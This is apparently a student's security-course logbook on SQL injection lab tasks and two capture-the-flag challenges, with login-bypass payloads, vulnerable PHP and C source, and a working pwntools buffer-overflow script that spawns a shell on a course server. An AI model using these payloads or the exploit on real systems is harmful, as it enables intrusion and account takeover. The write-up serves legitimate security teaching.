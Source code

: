 # Logbook 8


## Get Familiar with SQL Statements

After the proper setup, we obtained the following output:
![image](prints/print26.jpg)

In another terminal we opened sql as shown downwards:
![image](prints/print27.jpg)

# Task 1

First we got all credentials by doing a "SELECT * from credentials;"
We did a "SELECT * from credential where NAME ='Alice'" to get Alice info;
![image](prints/print28.jpg)
![image](prints/print29.jpg)

# Task 2.1
We logged in into the web application as the administrator, so we could be able to see the information off all employees.
![image](prints/print30.jpg)

The output obtained was as follows:
![image](prints/print31.jpg)

# Task 2.2
We repeated the previous task from the command line and got the following output:
![image](prints/print33.jpg)

![image](prints/print32.jpg)

To do this we needed to pass admin'#, which are special characters, so we used their respective encoding (for ' we used %27 and # we used %23);

# Task 2.3
We gave the following input and tried running two sql statements in this attack. The output was:
![image](prints/print35.jpg)
![image](prints/print34.jpg)
Why this happened? 
Well, we couldn't use both statements because of multiquery, which checks for more than one statement separated by ';' and then returns the provided error.


# Task 3.1
We decided to modify Alice's salary. To do so we went to the edit profile tab and made the following submission:
![image](prints/print37.jpg)

The result in the mysql terminal was:
![image](prints/print36.jpg)


# Task 3.2
Now we changed the bosse's salary, giving the following input:
![image](prints/print39.jpg)

The final output was as follows:
![image](prints/print38.jpg)

# Task 3.3

The objective in this task was to change the password of the user 'Boby'.
First we had to turn the desired password ('ola') in to SHA 1 encoding.
![image](prints/print40.jpg)

Now we got into the boby account using its user and a new password defined by us.
![image](prints/print41.jpg)



# CFT 8

## Challenge 1

---

When we enter `http://ctf-sp.dcc.fc.up.pt:5003/`, we are greated with this page:

![image](prints/img_8.png)

Then we tried the usual SQL injection input:

```
username: " or ""="
password: " or ""="
```

But it didn't work. So we took a look at the source code.

<details><summary>index.php</summary>
    <p>

    <?php
        ob_start();
        session_start();
        include "config.php";
    ?>
    
    <?
       // error_reporting(E_ALL);
       // ini_set("display_errors", 1);
    ?>
    
    <html lang = "en">
    
       <head>
          <title>EasyVault</title>
          <link href = "css/custom.css" rel = "stylesheet">
          <!-- JavaScript Bundle with Popper -->
          <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>
    
    
          <style>
            
          </style>
    
       </head>
    
       <body>
    
          <h2>Unlock the vault</h2> 
          <div class = "container form-signin">
             
             <?php
                if (!empty($_POST)) {
    
                   require_once 'config.php';
    
                   $username = $_POST['username'];
                   $password = $_POST['password'];
                   
                   $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                         
                   if ($result = $conn->query($query)) {
                                      
                      while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                        $_SESSION['username'] = $data['username'];
               
                        echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                        include "/flag.txt";
                        echo "</code>";
    
                     }
                   } else {            
                       // falhou o login
                       echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
                   }
                }
             ?>
          </div> <!-- /container -->
          
          <div class = "container">
          
             <form class = "form-signin" role = "form" style="text-align:center"
                action = "<?php echo htmlspecialchars($_SERVER['PHP_SELF']); 
                ?>" method = "post">
                <h4 class = "form-signin-heading">Login</h4>
                <input type = "text" class = "form-control" 
                   name = "username" placeholder = "username" 
                   required autofocus></br>
                <input type = "password" class = "form-control"
                   name = "password" placeholder = "password" required></br>
                <button class = "btn btn-lg btn-primary btn-block" type = "submit" 
                   name = "login">Login</button>
             </form>
                            <div class="footer">
             Click here to clean the <a href = "logout.php" tite = "Logout">session.
             </div>
             
          </div> 
    
       </body>
    </html>
</p>
</details>

The source code is vulnerable in this line:

```
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```


Then we tried changing the input to this:



```
username: ' or ''='
password: ' or ''='
```

And it worked!

![image](prints/img_9.png)


### flag{dfedf24e44e71e0d4fb0c37ce89fdd75}

## Challenge 2

---



We inspected the main.c file and found the following code:

<details><summary>main.c</summary>
<p>

    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
    char buffer[100];
    
        printf("Try to control this program.\n");
        printf("Your buffer is %p.\n", buffer);
        printf("Give me your input:\n");
        fflush(stdout);
       
        gets(buffer);
        
        return 0;
    }

</p>
</details>


### Program Analysis
We have a BOF vulnerability in gets() function, where we can read more than 100 bits to a buffer that only takes 100 bits, therefore causing a crash, and a possible exploitation.


### Executing the binary

By executing the binary given, we see that we get a base stack address leak and we will work around that to defeat the address randomization, therefore bypassing the PIE protection.


![image](prints/img_11.png)

### Find the offset between the buffer and EIP
We will now see how many characters we need to write from the base address to start overwritting the instruction pointer.
To calculate this we used GDB pattern create tool to find this offset.
To verify if GDB EIP offset was correct we used radare2 wop0, and found that GDB EIP offset was off by 1. Being 108 bits the correct offset.


![image](prints/img_12.png)


### The exploit

We see that the distance between the base address and the EIP is 108.

Given that we have the leaked stack base address, we will insert the shellcode, crafted using python pwn tools package, then overwrite the buffer until we get to EIP and then overwrite EIP with the leaked base address, therefore redirecting our code to the shellcode, that is in the leaked stack base address.


<details><summary>script.py</summary>
<p>

    from pwn import *
    import re
    
    from pwnlib.adb.adb import shell
    
    #p = process("./program")
    
    e = context.binary = ELF("./program")
    p = remote("ctf-sp.dcc.fc.up.pt",4001)
    
    #gdb.attach(p.pid)
    
    shellcode = asm(shellcraft.sh())
    
    p.recvuntil("buffer is ")
    
    stack_base = int(p.recv(10),16)
    
    payload = asm(shellcraft.sh())
    
    payload = payload.ljust(108,b'A')
    
    payload += p32(stack_base)
    
    p.sendlineafter("input:",payload)
    p.interactive()


</p>
</details>


![image](prints/img_10.png)

### flag{9d880204187ce51a3a20378c78136b66}



o que é o ts token elg token 
precisam de ser usados os dois juntos? se sim porque?